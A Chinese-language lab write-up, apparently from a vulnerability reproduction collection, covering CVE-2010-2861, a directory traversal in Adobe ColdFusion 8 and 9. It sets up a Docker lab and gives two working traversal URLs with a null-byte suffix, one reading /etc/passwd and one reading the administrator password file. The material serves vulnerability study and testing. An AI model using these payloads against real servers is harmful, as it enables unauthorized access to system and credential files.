


# Adobe ColdFusion 文件读取漏洞（CVE-2010-2861）

Adobe ColdFusion是美国Adobe公司的一款动态Web服务器产品，其运行的CFML（ColdFusion Markup Language）是针对Web应用的一种程序设计语言。

Adobe ColdFusion 8、9版本中存在一处目录穿越漏洞，可导致未授权的用户读取服务器任意文件。

## 环境搭建

执行如下命令启动Adobe CouldFusion 8.0.1版本服务器：

```
docker-compose up -d
```

环境启动可能需要1~5分钟，启动后，访问`http://your-ip:8500/CFIDE/administrator/enter.cfm`，可以看到初始化页面，输入密码`admin`，开始初始化整个环境。

## 漏洞复现

直接访问`http://your-ip:8500/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../etc/passwd%00en`，即可读取文件`/etc/passwd`：



读取后台管理员密码`http://your-ip:8500/CFIDE/administrator/enter.cfm?locale=../../../../../../../lib/password.properties%00en`：


